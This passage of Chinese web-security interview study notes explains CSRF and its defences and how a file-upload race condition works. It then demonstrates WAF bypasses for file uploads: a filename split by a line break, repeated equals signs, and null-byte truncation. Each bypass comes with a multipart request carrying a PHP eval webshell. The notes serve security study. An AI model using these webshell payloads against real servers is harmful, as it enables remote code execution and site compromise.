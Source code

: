 ### csrf部分

#### 讲一下csrf原理

简单的说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己以前认证过的站点并运行一些操作（如发邮件，发消息，甚至财产操作（如转账和购买商品））。因为浏览器之前认证过，所以被访问的站点会认为这是真正的用户操作而去运行。



#### csrf的防御方法有哪些? referer验证和token那个安全级别高呢?

有三种方法被广泛用来防御CSRF攻击：验证token，验证HTTP请求的Referer，还有验证XMLHttpRequests里的自定义header。token安全等级更高，因为并不是任何服务器都可以取得referer，如果从HTTPS跳到HTTP，也不会发送referer。并且FLASH一些版本中可以自定义referer。但是token的话，要保证其足够随机且不可泄露。(不可预测性原则)

### 文件上传

#### 讲一下条件竞争的原理

文件上传时，先上传、再检测、不合条件时再删掉的场景，攻击者利用多线程并发不断上传一个可以写webshell的脚本，然后马上访问这个刚上传的文件，当服务端判断并删除的时间大于客户端线程访问的时间时，客户端可以在删除之前访问到这个脚本并成功运行写入webshell



#### 文件上传WAF怎么绕过

#### 1、换行

```
Content-Disposition: form-data; name="file"; filename="1.p
hp"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

#### 2、多个等号(不止2，3个)

```
Content-Disposition: form-data; name="file"; filename=="2.php"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

```
Content-Disposition: form-data; name="file"; filename==="3.php"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

#### 3、00截断

```
Content-Disposition: form-data; name="file"; filename="4.php%00"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```
